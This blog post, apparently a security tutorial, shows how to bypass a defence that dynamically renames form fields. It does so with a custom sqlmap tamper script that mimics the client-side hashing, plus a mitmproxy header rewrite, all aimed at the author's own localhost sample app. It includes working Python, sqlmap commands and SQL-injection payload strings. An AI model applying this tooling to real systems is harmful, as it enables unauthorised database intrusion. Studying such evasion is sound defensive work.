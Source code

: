 ```yaml
---
layout: post
title: Beat dynamic parameters with SQLMap
---
```


In the [previous][1] post I have written about a simple method of deterring automated tools like `sqlmap` from being run against your application. I have argued that having some client-side JavaScript code that dynamically mangles form fields' _name_ attribute can help a lot (prevent automated calls to DB via your app) when it comes to SQL-injection discovery (provided that the attacker is not-so-determined). Now let's take another side - one of an attacker - and try to circumvent that protection.

First of all, one has to determine what is actually being sent to the server in the end. In the [example][2] from the aforementioned [post][1] we have simulated a very simple mechanism implemented at the client side:

<pre class="javascript">
function submitForm()
        {
            var u = document.getElementById('username');
            var p = document.getElementById('password');
            var ts = (new Date()).getTime().toString().substr(0, 10);
            var hash = CryptoJS.SHA1(ts).toString();

            u.name = 'username' + hash.substr(0, 20);
            p.name = 'password' + hash.substr(20);
        }
</pre>

By looking at the code snippet above we can infer that the `username` field becomes something like `username6d96270004515a0486bb` and `password` turns into `password7f76196a72b40c55a47f`. Of course, these are trivial examples and one can always write some crazy _Tour de France_ like code, then obfuscate it, etc. and that would probably earn her some <strike>street</strike>coding cred.

As we now know that we need to obtain the current UNIX timestamp, SHA-hash it and then append the first 20 bytes to the username field name and the rest to the password field name, we can try using that knowledge to automate enumeration (sqli scanning) process.

Let's turn to `sqlmap` again and recall that it provides a nifty `--tamper` option which selects a _tamper script_ from sqlmap's [`./tamper`][3] directory to be used with each request. FYI, _tamper scripts_ are those that extend sqlmap's functionality by modifying payloads (read injection strings) on the fly on **each** request. [RTFM][4] for more information on those.

Essentially, tamper script is a Python program that looks like this when bare:

<pre class="python">
#!/usr/bin/env python

def tamper(payload, **kwargs):
        return payload
</pre>

Where `payload` is the actual data that is sent to the server after the parameter name under attack and `kwargs` is a pointer to a list with other request data (currently holds just the headers list changing which has no effect at the time of writing this post). We'll need just the `payload` parameter. In the example above the payload is unmodified.

Now that we have this functionality at our disposal, let's create our own tamper script with the following contents:

<pre class="python">
#!/usr/bin/env python

from lib.core.enums import PRIORITY
from time import time
from hashlib import sha1

__priority__ = PRIORITY.HIGHEST

def dependencies():
    pass

def tamper(payload, **kwargs):

    if payload:
        ts = str(time())[0:10]
        tsHash = sha1(ts).hexdigest()
        uHash = tsHash[:20]
        pHash = tsHash[20:]

        username = 'username' + uHash
        password = 'password' + pHash

        payload = ("&%s=%s&%s=" % (username, payload, password))

        return payload

</pre>

Pay no attention to `priority` piece for now. Here we mock the JavaScript behavior from the client script at the top of the post. It is important to mention that tamper scripts do not allow parameter name forging on the fly (makes sense as sqlmap's main program is originally bound to parameters put to the test). However, as (in this case) POST data segment (that's after the headers and a line break) allows for it we can append whatever we wish to the end of the payload and tell sqlmap to test a non-existing parameter like `wtf31337lolz`.

In other words, our tamper script will produce the following POST data (without URL encoding for readability):

<pre class="plaintext">
wtf31337lolz=&usernamee7ac6c7decb30ff4e351=bIvB AND 2285=7397&password86584b39cfafc75df10b=
</pre>

Which is supposed to be:

<pre class="plaintext">
wtf31337lolz=&usernamee7ac6c7decb30ff4e351%3dbIvB+AND+2285%3d7397&password86584b39cfafc75df10b=
</pre>

But in reality (whatever that means), sqlmap would logically URL-encode all of it and destroy our payload which we want to be part of POST data:

<pre class="plaintext">
wtf31337lolz=%26usernamee7ac6c7decb30ff4e351%3DbIvB%20AND%202285%3D7397%26password86584b39cfafc75df10b%3D
</pre>

Let's then pass the `--skip-urlencode` option to sqlmap to avoid that. Now that's what doctor ordered:

<pre class="plaintext">
wtf31337lolz=&usernameddb2b4e2a165d45044c6=test) AND 3177=3168 AND (9787=9787&password977fe05ed6a9001cec17=
</pre>

As there's no `wtf31337lolz` parameter in the sample web application at the top of the post but username and password fields are still injectable even though they're outside of sqlmap's scope, the tool would successfully determine SQLi in the app under the name of `wtf31337lolz` param though.

Nevertheless, one issue still remains: sqlmap doesn't show any signs of SQLi in our sample app. The reason is that PHP's `$_POST` contains POST data only if `Content-Type` header has value of `application/x-www-form-urlencoded` and what we've done by introducing `--skip-urlencode` has set `Content-Type: text/plain` header instead - hence `$_POST` is empty on the server side.

There's a simple Python proxy I had handy that overwrites the `Content-Type` header and I set it back to `application/x-www-form-urlencoded`. The same can be achieved by [`mitmproxy`][5]:

<pre class="bash">
mitmproxy -p 3128 -z --setheader "/~hq/Content-type/application/x-www-form-urlencoded" -vvv -e
</pre>

`-vvv` is for verbosity and `-e` is for debug console within mitmproxy.

Finally we launch sqlmap via:

<pre class="bash">
./sqlmap.py -u 'http://localhost:8888/dynamic_parameters.php' --data="wtf31337lolz=test" --tamper=dynamicparams --random-agent  --proxy=http://127.0.0.1:3128 --skip-urlencode --dbms=mysql
</pre>

`mitmproxy` rewrites the `Content-Type` header:

![](http://media.tumblr.com/56b3ae85d9c10906506af97481749256/tumblr_inline_msi57nJPwi1qz4rgp.png)

And voila:

![](http://media.tumblr.com/ca9d9cde793faf11c531d2ce17c23fae/tumblr_inline_msi57xxQMY1qz4rgp.png)

To sum up, you have just created a _tamper script_ for _sqlmap_ that mimics client-side code functionality, which helped you circumvent the pseudo-protection technique for web apps that relies on dynamic input parameters.

Read the manual if unsure, post comment(s) if unclear.

[1]: http://breaking.into.systems/read/2013/dynamic-form-parameters-against-sqlmap-kiddies-at-al "My previous post on this topic"

[2]: https://git.io/fAdpl "Sample web application"

[3]: https://github.com/sqlmapproject/sqlmap/tree/master/tamper "List of tamper scripts @ GitHub"

[4]: https://github.com/sqlmapproject/sqlmap/wiki/Usage "SQLMap usage"

[5]: http://mitmproxy.org/ "Nice intercepting proxy written in Python"
